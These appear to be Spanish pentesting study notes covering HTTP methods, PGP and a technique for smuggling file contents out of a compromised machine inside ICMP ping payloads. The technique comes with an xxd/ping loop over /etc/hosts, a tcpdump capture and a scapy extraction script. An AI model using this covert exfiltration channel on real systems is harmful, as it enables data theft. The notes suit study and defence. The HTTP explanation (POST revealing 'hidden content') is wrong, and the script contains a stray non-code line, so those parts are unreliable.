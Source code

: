 Existen varios metodos web pero los más utilizadas son POST Y GET
una peticion GET te muestra tal como es la pagina web mientras que en una peticion 
POST te muestra contenido oculto en la pagina. También es la peticion más utilizada
para el envio de datos con curl -d "" puedes concretar los datos que quieres enviar
en caso de que en esa página se este dando una petición post es muy probable que en 
la url esten definidos ciertos parametros.

## PGP

Pretty Good Privacy (PGP) es un programa creado por Phil Zimmermann que nos ayuda a proteger nuestra privacidad, 
para que todas las comunicaciones estén a buen seguro; al mismo tiempo, garantiza la autenticidad de los mensajes 
electrónicos que enviamos.

## Ping Local File Inclusion

Existe una técnica que te permite mediante un ping 
poder ver los archivos de la maquina victima, 
para ello tienes que conseguior ejecucion remota de comandos
esta tecnica se suele utilizar cuando no hemos conseguido una reverse shell

`pip3 install scapy`

```bash
xxd -p -c4 /etc/hosts | while read line ; do ping -c1 -p $line 127.0.0.1 ; done
#Convertimos el contenido de dicho archivo en hexadecimal y plaintext, para que no salga mucho output lo dividimos en cuatro caracteres for fila.
#Hacemos un bucle con ese contenido
#Y ese bucle se lo pasamos en forma de variable a ping, con le parametro -p cremos un patron en ping.
#Se podra ver el patron para cada cadena en hexadecimal. si lo capturamos con wireshark vemos como se en cada pattern capturado se encuentra la informacion del archivo.
#Pasamos al script de ejemplo
```
**capturamos ese bucle con:**

```bash
tcpdump -i lo -w captura.cap -v
```
**Script explicativo**
```python
#!/usr/bin/python3
from scapy.all import *
packets = rdpcap("captura.cap")
#Para almacenar la info de los archivos.cap rdpcap
#En esa captura esta una cantidad de paquetes y tenemos que iterar entre ellos filtrando por lo que nos interese, esto se basa en eso.
for packet in packets:
	print(packet)
#Te mostrara todos los paquetes pero si abusas del indice
packets[1] #Solo te mostrar ese paquete
packets[1][ICMP] #filtramos por el contenido ICMP 
#Aqui entra el concepto layer o capa, estan dividido por |< y podemos filtrar por ellos.
#Lo que estamos usando arriba [ICMP] es un layer
podemos listar con ls
ls(packets[1][ICMP])
#Y el campo que finalmente nos interesa es load. 
packets[1][ICMP].load 
#La info va de dos en dos. Se te muestra en estructura de 4 bytes 
#y estos 4 bytes almacenan la informacion de dos en dos.
packets[1][ICMP].type #Para mostrarnos el tipo tambien es importante al filtar.
packets[1][ICMP].load[-4:] #Nos quedamos con los ultimos 4 bytes
```
**SCRIPT REAL no es necesario el indice en los paquetes en este.**
